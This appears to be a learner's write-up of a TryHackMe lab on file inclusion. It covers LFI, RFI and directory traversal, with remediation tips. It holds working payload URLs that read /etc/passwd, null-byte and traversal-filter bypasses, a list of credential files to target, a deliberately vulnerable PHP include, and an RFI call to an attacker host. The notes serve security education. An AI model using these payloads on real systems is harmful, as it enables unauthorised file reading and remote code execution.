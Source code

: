 # 🚨 File Inclusion 🚨

## 📌 Task 1: Introduction

### 🧐 What is File Inclusion?

File inclusion vulnerabilities allow attackers to access unauthorized files on a server due to improper input validation. Main types:

* 🔹 **Local File Inclusion (LFI)**
* 🔹 **Remote File Inclusion (RFI)**
* 🔹 **Directory Traversal**

### 🛠️ How File Inclusion Occurs:

* Directly using user-controlled input in file handling functions without validation.

### ⚠️ Risks:

* 🔓 Sensitive data leakage
* 💻 Remote Command Execution (RCE)

### 🌐 URL Breakdown

![URL Breakdown](https://github.com/user-attachments/assets/a25027b5-fc86-4bab-babe-655a4f2322bb)

### 📑 Example Scenario

![Example Scenario](https://github.com/user-attachments/assets/8fef0c16-076f-48b3-a315-89e822508a89)

---

## 📌 Task 2: Deploy the VM

* 📥 Deploy the provided VM.
* 🌐 Access via TryHackMe network or AttackBox:

![VM Deployment](https://github.com/user-attachments/assets/43085e65-4553-481f-8951-40cc56568287)

---

## 📌 Task 3: Path Traversal

Directory traversal exploits let attackers access files outside the web root by URL manipulation.

### 🔍 Exploitation Examples

**Linux Example:**

```
http://webapp.thm/get.php?file=../../../../etc/passwd
```

**Windows Example:**

```
http://webapp.thm/get.php?file=../../../../windows/win.ini
```

### 📈 Visualization

**Attack Process**

![Path Traversal Attack](https://github.com/user-attachments/assets/0e6eb5f4-3142-4507-bd6f-1302c9bf4142)

**Directory Traversal Illustration**

![Directory Traversal](https://github.com/user-attachments/assets/1d60c63e-9cef-4e0c-9356-c6b950d85f13)

**Final Outcome**

![Final Outcome](https://github.com/user-attachments/assets/5b9ad3e9-ec92-44b9-a761-5d9871730a6e)

### 📋 Common Files for Exploitation:

| File Path                     | Description             |
| ----------------------------- | ----------------------- |
| `/etc/passwd`                 | System user information |
| `/etc/shadow`                 | User passwords          |
| `/root/.bash_history`         | Root command history    |
| `/var/log/apache2/access.log` | Apache server logs      |
| `C:\boot.ini`                 | Windows boot options    |

---

## 📌 Task 4: Local File Inclusion (LFI)

LFI occurs with improper use of file handling functions like `include`, `require`, etc.

### ⚙️ PHP Examples:

```php
include($_GET["lang"]);
```

**Exploitation:**

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

### 📂 Directory Specified Scenario:

```php
include("languages/". $_GET['lang']);
```

**Payload:**

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

---

## 📌 Task 5: Advanced LFI Techniques

### 1️⃣ Error Message Analysis

Analyze errors for path disclosure.

**Payload:**

```
http://webapp.thm/index.php?lang=../../../../etc/passwd%00
```

### 2️⃣ Filter Bypass

Use Null Byte (`%00`) or current directory (`/.`).

**Payload:**

```
http://webapp.thm/index.php?lang=/etc/passwd%00
```

### 3️⃣ Traversal Filter Bypass

Repeated patterns bypass:

```
http://webapp.thm/index.php?lang=....//....//....//etc/passwd
```

![Filter Bypass](https://github.com/user-attachments/assets/1dbd7386-91b7-47ec-bdb5-590b7c8a3dd5)

### 4️⃣ Directory Enforcement Bypass

Include directory in payload:

```
http://webapp.thm/index.php?lang=languages/../../../../etc/passwd
```

---

## 📌 Task 6: Remote File Inclusion (RFI)

RFI executes remotely hosted files. Requirements:

* `allow_url_fopen` in PHP set to `on`

### 🚩 Exploitation Example:

1. 🖥️ Malicious file (`http://attacker.thm/cmd.txt`):

```php
<?php echo "Hello THM"; ?>
```

2. 🌐 Inclusion via URL:

```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```

![RFI Attack Illustration](https://github.com/user-attachments/assets/5774be06-8423-4696-b299-910d6b00808f)

---

## 📌 Task 7: Remediation

### 🛡️ Best Practices:

* ✅ Keep software updated
* ✅ Disable PHP error display
* ✅ Use Web Application Firewall (WAF)
* ✅ Disable unnecessary PHP options (`allow_url_fopen`, `allow_url_include`)
* ✅ Validate and sanitize inputs
* ✅ Whitelist/blacklist file access

---

## 📌 Task 8: Challenge

### 🧑‍💻 Testing Steps:

1. 🎯 Identify entry points
2. ✅ Test valid inputs
3. ❌ Test invalid inputs and special characters
4. 🔧 Utilize browser and Burp Suite tools
5. 🖥️ Analyze error messages
6. 🛠️ Determine filters and validation
7. 🎯 Craft payloads for sensitive file access

🔗 **Challenge Access:**

[http://MACHINE\_IP/challenges/index.php](http://MACHINE_IP/challenges/index.php)

🎉 **Happy Hacking!** 🎉
